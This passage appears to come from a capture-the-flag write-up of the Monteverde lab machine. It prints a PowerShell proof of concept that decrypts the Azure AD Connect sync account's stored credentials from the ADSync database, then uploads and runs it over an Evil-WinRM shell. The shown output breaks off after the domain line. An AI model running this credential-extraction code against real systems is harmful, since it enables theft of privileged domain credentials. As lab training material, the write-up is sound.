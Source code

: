 ```powershell
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

We'll need to make one change to this script to make it work in our situation, the correct connection string. We can find this in our Evil-WinRM session as mhope.

```bash
*Evil-WinRM* PS C:\> hostname
MONTEVERDE
*Evil-WinRM* PS C:\> Connect-AdSyncDatabase -Server MONTEVERDE
...
ConnectionString                 : Data Source=tcp:MONTEVERDE\;Integrated Security=True
...
```

The updated code in the Admin.ps1 script will be:

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=tcp:MONTEVERDE\;Integrated Security=True;Initial Catalog=ADSync"
```

```bash
*Evil-WinRM* PS C:\Users\mhope\Downloads> upload Admin.ps1
Info: Uploading Admin.ps1 to C:\Users\mhope\Downloads\Admin.ps1

Data: 2348 bytes of 2348 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\mhope\Downloads> dir

    Directory: C:\Users\mhope\Downloads

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2020   3:02 AM           1763 Admin.ps1

*Evil-WinRM* PS C:\Users\mhope\Downloads> .\Admin.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
```
